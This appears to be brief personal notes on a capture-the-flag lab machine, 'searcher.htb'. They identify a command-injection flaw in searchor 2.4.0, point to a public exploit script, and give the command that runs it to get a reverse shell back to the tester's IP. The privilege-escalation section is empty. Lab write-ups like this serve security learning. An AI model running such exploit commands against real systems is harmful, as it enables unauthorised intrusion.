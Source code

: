 # Take Away
# Metadata
- Visiting `http://10.10.11.208:80/` will be redirected to `http://searcher.htb`. Within `http://searcher.htb`, one can identify `searchor 2.4.0` is part of the tech stack.![[Pasted image 20240228212836.png]]
	- A quick google will identify `searchor 2.4.0` is vulnerable to `Command Injection`.
# Exploitation
- Download the script from `https://github.com/twisted007/Searchor_2.4.0_RCE_Python`. 
	- Run `python3 searchor-2_4_0_RCE.py searcher.htb 10.10.14.23 443` to receive a reverse shell session as local user `svc`.
# PrivEsc